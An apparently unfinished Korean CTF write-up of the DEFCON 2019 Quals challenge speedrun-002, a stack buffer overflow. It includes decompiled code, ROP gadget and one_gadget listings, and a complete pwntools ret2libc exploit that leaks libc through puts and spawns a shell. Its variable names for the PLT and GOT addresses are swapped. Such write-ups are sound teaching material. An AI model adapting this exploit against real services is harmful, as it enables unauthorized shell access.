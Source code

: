 ```yaml
---
layout: post
title: ! "[DEFCON 2019 Quals] speedrun-002 (작성중)"
excerpt_separator: <!--more-->
comments : true
tags:
  - pwn
  - Defcon CTF
  - Write-up
  - chaem
---
```


defcon 예선에 있던 speedrun 문제 중에 2번째 문제에 대한 writeup을 쓰려고 한다.  

<!--more-->

얼마만에 보는 pwnable인지... 요즘 계속 web만하다가, defcon ctf 문제 풀이를 위해 간만에 gdb를 쓴듯...ㅠ  
babyheap문제를 풀려고했으나... 공부안한지 너무 오래된것같다... ㅠ ROP문제도 전전긍긍...  

바이너리의 보호기법은 다음과 같다.  
```
ubuntu@ubuntu:~/study/ctf/speed02$ checksec speedrun-002 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/ubuntu/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.2)
[*] '/home/ubuntu/study/ctf/speed02/speedrun-002'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

프로그램을 실행시키면 다음과 같이 값을 입력받고 종료한다. 일단 여기서 segmentation fault도 나지 않는다.

``` 
ubuntu@ubuntu:~/study/ctf/speed02$ ./speedrun-002 
We meet again on these pwning streets.
What say you now?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
What a ho-hum thing to say.
Fare thee well.
```

ida로 디컴파일하여 보면, sub_40074C() 함수를 볼 수 있다.  
이 함수에서 문자열이 `Everything intelligent is so boring.`와 같은지 확인한다.  

```c
int sub_40074C()
{
  int result; // eax
  char buf; // [rsp+0h] [rbp-590h]
  char v2; // [rsp+190h] [rbp-400h]

  puts("What say you now?");
  read(0, &buf, 0x12CuLL);
  if ( !strncmp(&buf, "Everything intelligent is so boring.", 0x24uLL) )
    result = sub_400705(&v2, "Everything intelligent is so boring.");
  else
    result = puts("What a ho-hum thing to say.");
  return result;
}
```

그래서 `Everything intelligent is so boring.` 문자열을 입력하면 그 뒤에 한번 더 값을 입력받는다.  

```
ubuntu@ubuntu:~/study/ctf/speed02$ ./speedrun-002 
We meet again on these pwning streets.
What say you now?
Everything intelligent is so boring.
What an interesting thing to say.
Tell me more.
aaaaa
Fascinating.
Fare thee well.
```
ida로 보았을때, 그러면 `sub_400705`함수를 호출하게 된다.  
이 함수에서 0x7da 만큼의 입력을 받으면서 bof 취약점이 발생한다.  

```c
ssize_t __fastcall sub_400705(void *a1)
{
  puts("What an interesting thing to say.\nTell me more.");
  read(0, a1, 0x7DAuLL);
  return write(1, "Fascinating.\n", 0xDuLL);
}
```

우선, puts 함수가 존재하므로 puts의 주소를 확인한다.  
puts의 plt는 0x4005b0이고, got는 0x601028이다. 
```
ubuntu@ubuntu:~/study/ctf/speed02$ objdump -D speedrun-002 | grep puts
00000000004005b0 <puts@plt>:
  4006fd:	e8 ae fe ff ff       	callq  4005b0 <puts@plt>
  400718:	e8 93 fe ff ff       	callq  4005b0 <puts@plt>
  40075e:	e8 4d fe ff ff       	callq  4005b0 <puts@plt>
  4007b3:	e8 f8 fd ff ff       	callq  4005b0 <puts@plt>
  4007c6:	e8 e5 fd ff ff       	callq  4005b0 <puts@plt>
ubuntu@ubuntu:~/study/ctf/speed02$ objdump -R speedrun-002 | grep puts
0000000000601028 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
root@ubuntu:/home/ubuntu/study/ctf/speed02# objdump -R speedrun-002 | grep read
0000000000601040 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5

```

필요한 가젯 찾기

```
root@ubuntu:/home/ubuntu/study/ctf/speed02# ROPgadget --binary speedrun-002 | grep ": pop rdx ; ret"
0x00000000004006ec : pop rdx ; ret
root@ubuntu:/home/ubuntu/study/ctf/speed02# ROPgadget --binary speedrun-002 | grep ": pop rdi ; ret"
0x00000000004008a3 : pop rdi ; ret
root@ubuntu:/home/ubuntu/study/ctf/speed02# ROPgadget --binary speedrun-002 | grep ": pop rsi "
0x00000000004008a1 : pop rsi ; pop r15 ; ret
```

```
ubuntu@ubuntu:~/ctf/2019/defcon/speedrun$ one_gadget ./libc6_2.27-3ubuntu1_amd64.so 
0x4f2c5	execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322	execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

따라서 다음과 같은 exploit 코드를 사용할 수 있다.

```python
from pwn import *

binary = ELF('./speedrun-002')
libc = ELF('libc6_2.27-3ubuntu1_amd64.so')
p = process('./speedrun-002')

puts_plt = binary.got['puts'] #0x4005b0 #bin.got('puts')
puts_got = binary.plt['puts'] #0x601028 #bin.plt('puts')
read_got = 0x601040

pop_rdi = 0x4008a3 #binary.search(asm('pop rdi; ret')).next() #0x4008a3
#pop_rsi_r15 = 0x4008a1
#pop_rdx = 0x4006ec
main = 0x400600 #bin.symbols['main']

print p.recvuntil('now?\n')
p.sendline('Everything intelligent is so boring.\n')
print p.recvuntil('Tell me more.\n')

payload = "A"* 1032 
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)
p.sendline(payload)

p.recvuntil('Fascinating.\n')
leak = u64(p.recvline()[:6]+"\x00"*2)
log.success("libc leak : " + hex(leak))

puts_libc = libc.symbols['puts']
lba = leak - puts_libc
log.success("libc base addr : " + hex(lba))

system_libc = libc.symbols['system']
binsh = libc.search("/bin/sh").next()

payload = "a"*1032
payload += p64(lba + 0x4f322) # one_gadget

print p.recvuntil('now?\n')
p.sendline('Everything intelligent is so boring.\n')
print p.recvuntil('Tell me more.\n')
p.sendline(payload)

p.interactive()
```
